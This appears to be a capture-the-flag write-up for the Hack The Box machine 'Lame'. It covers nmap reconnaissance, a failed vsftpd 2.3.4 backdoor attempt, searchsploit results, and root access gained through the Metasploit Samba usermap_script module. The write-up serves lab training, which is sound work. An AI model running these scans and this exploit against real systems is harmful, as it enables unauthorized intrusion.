 # Summary
### 1. NMAP Scan
Typical NMAP scan, reveals `vsFTPd v2.3.4` on Port 21.

### 2. First Attack on FTP
Tried with metasploit modules, did not work.

### 3. Finding another attack vector
We do more NMAP scans and find `netbios-ssn Samba smbd 3.0.20-Debian`.

### 4. Second attack on Port 445 Samba
SearchSploit reveals it is susceptible to a `Username map script Command Execution` Metasploit module.
We run it and is able to compromise the system.

# Attack
## 1. NMAP Scan
`nmap -sC -v 10.10.10.3 -Pn`

## 2. First Attack on FTP
Shows Port 21 FTP Login allowed amongst other opened ports.

`nc 10.10.10.3 21` shows `vsFTPd v2.3.4`.

`searchsploit vsftpd 2.3.4` shows `Backdoor Command Execution`.
However, metasploit attacks etc didn't work.

Sources:
- https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/
- https://metalkey.github.io/vsftpd-v234-backdoor-command-execution.html

## 3. Finding another attack vector
Our first NMAP scan was useless. Let's try more nmap scans!

`nmap --script nmap-vulners -sV 10.10.10.3 -Pn -v` but didn't turn out to be useful. (Source: https://securitytrails.com/blog/nmap-vulnerability-scan).

Let's try something else which turned out to be more useful.
`nmap -sC -sV -A -v 10.10.10.3 -Pn`
```
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h30m18s, deviation: 3h32m07s, median: 18s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-11-26T07:45:56-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## 4. Second attack on Port 445 Samba
Shows Samba smbd 3.0.20-Debian.
`searchsploit samba 3.0.20`.
```
hippoeug@kali:~$ searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                              | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                    | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

There are a few interesting choices, but we are going for `Username map script Command Execution` Metasploit module.
Researching it, we find https://securitytrails.com/blog/nmap-vulnerability-scan.
Let's run the metasploit script `use exploit/multi/samba/usermap_script`.

Boom, we got root access and found the flags!
